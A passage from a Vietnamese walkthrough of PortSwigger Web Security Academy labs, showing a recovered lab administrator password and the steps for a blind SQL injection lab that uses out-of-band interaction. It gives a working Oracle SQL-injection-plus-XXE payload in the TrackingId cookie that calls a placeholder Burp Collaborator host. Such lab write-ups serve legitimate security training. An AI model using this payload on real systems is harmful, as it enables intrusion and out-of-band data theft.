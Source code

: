=> `administrator`:`93ncnzvhx130e7mz077o`

![image-20250601125913699](./image/image-20250601125913699.png)

### [Lab 15: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

**Lab des:** 

Lab 15 chứa một lỗ hổng Blind SQL Injection với truy vấn `TrackingId`.

Truy vấn SQL được thực thi một cách bất đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, có thể kích hoạt các tương tác out-of-band với một tên miền bên ngoài.

Để hoàn thành lab, phải khai thác lỗ hổng SQL Injection để tạo ra một truy vấn kích hoạt tra cứu DNS (DNS lookup) đến Burp Collaborator.

**Steps:**

- Thay đổi giá trị của cookie `TrackingId` thành một payload có khả năng kích hoạt tương tác với server Collaborator, kết hợp kỹ thuật SQL injection với XXE cơ bản:

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

```
